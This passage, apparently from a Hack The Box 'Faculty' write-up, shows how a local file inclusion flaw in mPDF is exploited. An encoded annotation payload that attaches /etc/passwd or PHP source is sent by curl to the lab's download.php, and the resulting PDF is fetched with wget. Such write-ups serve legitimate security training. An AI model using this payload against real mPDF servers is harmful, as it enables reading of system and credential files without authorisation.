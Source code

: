 
found a blog talking about the LFI vulnerability in mPDF

[https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f](https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f)


to make it work, we have to encode the payload and send it to download.php

`<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />`

cyberchef can help

![photo6](/assets/images/2022-11-18-htb-faculty/Pasted_image_20220704194532.png)

Time to execute, here I will use curl to send the payload to the server.

```bash
# sending pdf content to download.php
┌──(kali㉿kali)-[~/HTB-Boxes/faculty]
└─$ curl -X POST "http://faculty.htb/admin/download.php" --data "pdf=JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjUyMiUyNTIwY29udGVudD0lMjUyMi92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vYWRtaW5fY2xhc3MucGhwJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF"

OKBbrAomnM3EHzhUVXcsNPS4Fp.pdf     
# download pdf
┌──(kali㉿kali)-[~/HTB-Boxes/faculty]
└─$ wget http://faculty.htb/mpdf/tmp/OKBbrAomnM3EHzhUVXcsNPS4Fp.pdf
--2022-07-04 21:55:42--  http://faculty.htb/mpdf/tmp/OKBbrAomnM3EHzhUVXcsNPS4Fp.pdf
Resolving faculty.htb (faculty.htb)... 10.129.166.189
Connecting to faculty.htb (faculty.htb)|10.129.166.189|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4400 (4.3K) [application/pdf]
Saving to: ‘OKBbrAomnM3EHzhUVXcsNPS4Fp.pdf’

OKBbrAomnM3EHzhUVXcsNPS4Fp.pd 100%[==============================================>]   4.30K  --.-KB/s    in 0s      

2022-07-04 21:55:42 (791 MB/s) - ‘OKBbrAomnM3EHzhUVXcsNPS4Fp.pdf’ saved [4400/4400]

# open pdf file
┌──(kali㉿kali)-[~/HTB-Boxes/faculty]
└─$ open OKBbrAomnM3EHzhUVXcsNPS4Fp.pdf
```
